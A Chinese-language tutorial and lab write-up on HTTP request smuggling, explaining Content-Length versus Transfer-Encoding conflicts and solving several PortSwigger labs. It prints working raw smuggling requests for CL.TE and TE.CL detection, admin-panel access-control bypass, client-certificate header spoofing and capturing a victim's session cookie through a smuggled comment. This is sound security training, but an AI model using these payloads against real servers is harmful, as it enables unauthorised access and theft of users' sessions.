# HTTP请求走私漏洞原理

在用户和源码站之间一般会增加前置服务器来用于缓存，校验，负载均衡等，由于前置服务器与后端源码站往往是在可靠的网络域中，ip相对固定不变，可以重用TCP连接来减少频繁TCP握手带来的开销。在HTTP1.1中引入了`Keep-Alive` 和 `Pipeline` 特性

Keep-Alive特性在HTTP1.1中是默认开启的，就是在HTTP请求中增加一个特殊的请求头——Connection: Keep-Alive

作用是告诉服务器，接受完这次HTTP请求后，不关闭TCP连接，后面对相同目标服务器的HTTP请求，重用这个TCP连接，这样就只需要一次TCP握手的过程，可以减少服务器的开销，节约资源，还能加快访问速度。

pipiline特性是指在一次TCP连接中，可以连续不断地发送多个HTTP请求，从而不必等待服务器响应，服务器根据顺序进行处理。

一个完整的数据包需要在请求头部分包含"Content-Length"还者"Transfer-Encoding"来对数据包长度进行说明

Content-Length: 指明数据包的内容长度，一个字符长度为1，回车(\r\n)长度为2

Transfer-Encoding: 当值为chunked时，分块进行传输，服务器在读取到`0\r\n\r\n`的时候就代表请求结束

```
POST / HTTP/1.1
Host: 1.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
6
hahaha
0
[空白行]
[空白行]
```


由于HTTP /1规范提供了两种不同的方法来指定HTTP消息的长度，因此单个消息有可能同时使用这两种方法，从而导致它们相互冲突，针对此类问题我们建议如果Content-Length和Transfer-Encoding头都存在时应该采用忽略Content-Length来防止此问题，但是当只有一个服务器在运行时，这可以避免歧义，但当两个或多个服务器链接在一起时就无法避免歧义了，在这种情况下，出现问题的原因有两个：

- 如果某些服务器不支持Transfer-Encoding请求中的标头，则可能会导致歧义
- 如果请求头以某种方式被混淆，支持Transfer-Encoding标头的服务器可能会被诱导不去处理它

总而言之，如果前端和后端服务器对于(可能是混淆的)Transfer-Encoding标头的行为不同，那么它们可能对连续请求之间的边界存在分歧，从而导致请求走私漏洞

HTTP请求漏洞的核心原理就是前后端对于请求长度的判断不一致，导致前端是一个请求，在后端解析的时候就是两个请求

# 走私检测

## CL.TE

这种情况下，前端服务器使用Content-Length请求头，后端使用Transfer-Encoding头，例如

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

对于这种情况，前端服务器任务请求有13个字节，直到SMUGGLED结束，而到了后端服务器，因为用Transfer-Encoding进行解析，处理第一个块的时候任务请求已经结束了，后面的字节未被处理，就会被认为是下一个请求的开始

靶场地址：https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te



要求下一个请求的请求方法是GPOST

构造请求

```
POST / HTTP/1.1
Host: 0ac1005a047799d2800758a4005d0085.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

前端解析到G结束，但是在后端第一个块就已经结束了，G会被当作下一个请求的开始，当再次提交请求的时候，G被添加到下一个POST请求前面，得到了GPOST请求方法，走私成功




## TE.CL

靶场地址：https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

这种与前面一个正相反，前端是用Transfer-Encoding检测，后端用Content-Length



一样的要走私一个G到下一个请求到开头，先把协议换成HTTP1.1，关掉Content-Length的自动更新



```
POST / HTTP/1.1
Host: 0ac800f904e2758182895256002800f8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

1
G
0


```

这样构造不行



得到的是G0POST，我们应该走私一个完整的请求，为了计算块的大小，用burp的HTTP Request Smuggler插件



得到

```
POST / HTTP/1.1
Host: 0ac800f904e2758182895256002800f8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

发送两次



# 差异响应

## CL.TE

https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses



发送两次

```
POST / HTTP/1.1
Host: 0a860096032390c7800a1c8f00f800d1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Transfer-Encoding: chunked

0

GET /aaa HTTP/1.1
Test: 111
```



## TE.CL

https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses



```
POST / HTTP/1.1
Host: 0a0e00f904118c0c80c7a31d005500f1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /aaa HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

请求两次



# 走私绕过

## 前端安全控制

### CL.TE

https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te



需要去访问admin面板，并且删除carlos用户



直接访问admin面板不行，尝试通过走私去访问



只能本地访问，那就加一个host为localhost




看到这里由于第二个请求的主机头与第一个请求中走私的主机头冲突，从而导致请求被阻塞，随后发送以下请求两次以便将第二个请求的标头附加到走私的请求正文中





看到删除carlos用户的接口

然后走私访问即可

### TE.CL

绕过方式同理，但是前端采用Transfer-Encoding检测，后端采用Content-Length检测，对于删除carlos用户的思路相同

## 请求重写

在很多应用程序中，前端服务器往后端转发请求的时候会对一些请求进行重写，通常是添加一些额外的请求头比如说X-Forwarded-For，自定义的一些标识用户的标头。

在某些情况下，如果走私的请求却少一些由前端服务器添加的请求头，后端服务器不会以正常方式处理请求，导致走私没有办法达到预期的效果，可以这样来判断前端服务器是如何重写请求的：

- 首先找到一个POST请求并是那种可以将请求参数的值回显到应用程序的响应中的包
- 随后尝试随机排列参数，使反射的参数写在消息正文的最后
- 然后将这个请求偷偷发送到后端服务器，后面直接跟着一个普通的请求，您希望显示该请求的重写形式

假设应用程序有一个反映email参数值的登录函数：

```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

这将会导致响应包中包含以下内容信息：

```
<input id="email" value="wiener@normal-user.net" type="text">
```

加入发送的请求如下

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=1
```

前端服务器是Content-Length的检测，会得到去简析email的值，但是后端服务器是Transfer-Encoding的检测方式，在处理的时候会将走私的请求的视为email的参数值，从而在第二个请求的响应中回显看到添加到请求头（第二次前端仍然是提交了一个email参数，但是后端解析的却是走私的请求，此时email处的参数值则是提交的参数加上服务器处理后的第二个请求包）

```
<input id="email" value="1POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting



首先访问admin



提示只有127.0.0.1才能访问

页面中有一个search参数



可以回显到页面，构造走私请求

```
POST / HTTP/1.1
Host: 0a1200b903053b0282156bfa004000f7.web-security-academy.net
Content-Length: 105
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded

search=test
```



看到了添加的请求头X-MdrGUx-Ip，应该是由这个判断是否是127.0.0.1访问的

接下来走私访问admin面板




然后删除对应用户

## 绕过客户端

走私请求对前端是完全隐藏的，他们包含的任何请求头被发送到后端都不会被改变

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

在TLS握手过程中，服务器通过提供证书向客户端(通常是浏览器)验证自己，证书中包含他们的通用名称(CN)，该名称应该与他们注册的主机名相匹配，然后客户端可以使用它来验证他们正在与属于预期域的合法服务器进行对话，而部分站点则实现了双向认证，在这种认证方式下客户端也必须向服务器提供证书，客户端的CN通常是用户名等

这种情况下就需要提供和证书相同的CN到服务端

```
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

通常会是写到请求头中

但是由于走私的请求却可以直接修改发送来绕过访问控制

## 越权

与其说叫越权，不如说叫盗取Cookie

假设一个应用程序使用下面的请求来提交一篇博客文章的评论，该评论将被存储并显示在博客上

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

此时我们可以发送一个内容长度过长的请求并且注释参数位于请求的末尾

```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

走私请求的Content-Length头部表示主体将有400个字节长，但是我们只发送了144个字节，在这种情况下，后端服务器将在发出响应之前等待剩余的256个字节，如果响应不够快，则会发出超时，因此当另一个请求通过相同的连接发送到后端服务器时，前256个字节会被有效地附加到走私的请求中，从而得到如下响应

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```

由于受害者请求的开始包含在comment参数中，这将作为评论发布在博客上，随后便能够通过访问相关的帖子来阅读它，为了捕获更多的受害者请求，只需要相应地增加被走私请求的Content-Length头的值，不过需要请注意的是这将涉及一定量的试错，如果您遇到超时，这可能意味着您指定的内容长度大于受害者请求的实际长度，在这种情况下只需降低该值，直到攻击再次奏效

https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests



抓一个评论包



看到了评论



接下来尝试走私请求，Content-Length指定600，并且把顺序打乱，把comment参数放在请求的最后

```
POST / HTTP/1.1
Host: 0a35002803891b6e807f58fb00630044.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 349
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a35002803891b6e807f58fb00630044.web-security-academy.net
Cookie: session=ktC1fIZvzbwWbZ3fg0uAmzYWKSQrjz2c
Content-Length: 600
Content-Type: application/x-www-form-urlencoded

csrf=CbBfvwtnYMbT9NqhMipcelrXfxrMyZNl&postId=6&name=123&email=12345678%40qq.com&website=https%3A%2F%2Fbaidu.com&comment=comment2
```



看到了走私的请求，接下来修改Content-Length，查看博客文章以查看是否有包含用户请求的评论。请注意，目标用户只会间歇性地浏览网站，因此可能需要重复此攻击几次才能成功。

最后当Content-Length为833的时候，看到了完整的Cookie



如果大于833，走私的请求会超时，就是这样来获取受害者用户的请求，但是呢，我并没有获取到cookie中其他的内容，看网上的文章还有secret等cookie，我这里貌似拿到victim-fingerprint就没有了，就没有再去登陆了，不过思路就是这样去通过增加Content-Length的长度去获取用户的请求，盗取cookie


初次之外，请求走私还可以去进行XSS反射，重定向，缓存投毒，缓存欺骗等等


参考链接：

https://www.freebuf.com/vuls/269993.html

https://xz.aliyun.com/t/7501

https://xz.aliyun.com/t/13226